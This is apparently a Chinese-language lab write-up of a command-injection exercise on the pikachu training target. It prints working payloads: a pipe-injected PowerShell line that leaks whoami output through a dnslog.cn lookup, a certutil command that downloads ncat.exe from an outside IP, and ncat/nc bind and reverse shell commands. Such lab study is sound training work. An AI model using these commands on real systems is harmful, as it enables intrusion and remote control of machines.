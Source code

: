 5.1实验 利用ncat 与 管道符漏洞 完成正反向代理

---

#实验环境 ：

- 阿里云+PHPStudy+pikachu （靶机）
- 服务器 （用作上传文件）

- window10              （攻击机）

#使用工具：

- Nmap （[Download the Free Nmap Security Scanner for Linux/Mac/Windows](https://nmap.org/download#windows)）
- DNSLog（[DNSLog Platform](http://dnslog.cn/)）
- pikachu（https://github.com/zhuifengshaonianhanlu/pikachu）
- 棱角社区（[[~\]#棱角 ::Edge.Forum*](https://forum.ywhack.com/bountytips.php)）

#实验步骤

1.设置pikachu数据库地址 

- 编辑inc\config.inc `服务器里面可能没有可以编辑PHP格式的建议下载一个Notepad++`

![image-20251017142524334](images/image-20251017142524334.png)

![image-20251017144634453](C:\Users\Yennefer\AppData\Roaming\Typora\typora-user-images\image-20251017144634453.png)

2.本机登陆靶机网站 输入`127.0.01数据有回显`

![image-20251017145400934](images/image-20251017145400934.png)

3.在靶机中关闭回显 ctrl+f 搜索 echo

![image-20251017145919479](images/image-20251017145919479.png)

`注释echo`

![image-20251017150055959](images/image-20251017150055959.png)

4.网站无回显

![image-20251017150301157](images/image-20251017150301157.png)

5.使用[DNSLog Platform](http://dnslog.cn/)网站

![image-20251017150504559](images/image-20251017150504559.png)

利用window Poweshell命令 

127.0.0.1 | powershell $x = whoami;$x=$x.Replace('\\','xxx');$y='.z3xxl1.dnslog.cn';$z=$x+$y;ping $z 

- 因为cmd 无法运行 whoami
- 用Powershell变量赋值 把whoami 执行结果给变量
- 因为结果中带有==“\\”==导致ping命令无法执行
- 利用Replace 替换反斜杠变成“xxx”方面可读

==注意“\\”复制命令里面只有两个反斜杠需要删除一个反斜杠==

![image-20251017152502125](images/image-20251017152502125.png)

6.利用ncat.exe

- 由于windows没有Linux自带的nc。我们需要在电脑上下载个Nmap（Nmap自带ncat.exe）

- Nmap下载地址（[Download the Free Nmap Security Scanner for Linux/Mac/Windows](https://nmap.org/download#windows)）

![image-20251017153515138](images/image-20251017153515138.png)

- 把ncat上传到另一个服务器目录下 测试访问网址是否可以下载

  ![image-20251017171013453](images/image-20251017171013453.png)

![image-20251017170945228](images/image-20251017170945228.png)



- 打开棱角社区

![image-20251017171400116](images/image-20251017171400116.png)

- 选用一个cmd命令因为靶机是windows系统

certutil.exe -urlcache -split -f http://47.120.15.58:80/ncat.exe c://ncat.exe  `放到c盘`

![image-20251017171522371](images/image-20251017171522371.png)

- 输入命令

  ![image-20251017171744363](images/image-20251017171744363.png)

127.0.0.1 | certutil.exe -urlcache -split -f http://47.120.15.58:80/ncat.exe c://ncat.exe

- 成功放入服务器c盘

![image-20251017171850870](images/image-20251017171850870.png)

7.运用正反向连接即可

1.主动连接

- 主动连接目标5566

​	ncat 47.122.23.131 5566

- 绑定SH到本地5566端口

​	ncat -e /bin/sh -lvp 5566

- 主动连接目标5566

​	nc 47.94.236.117 5566

2、反向连接：主动给出去，对方监听

- 绑定CMD到目标5566端口

​	ncat -e /bin/sh 47.122.23.131 5566

- 等待5566连接

​	nc -lvvp 5566

- 绑定CMD到目标5566端口

​	nc -e cmd 47.94.236.117 5566

- 等待5566连接

​	ncat -lvvp 5566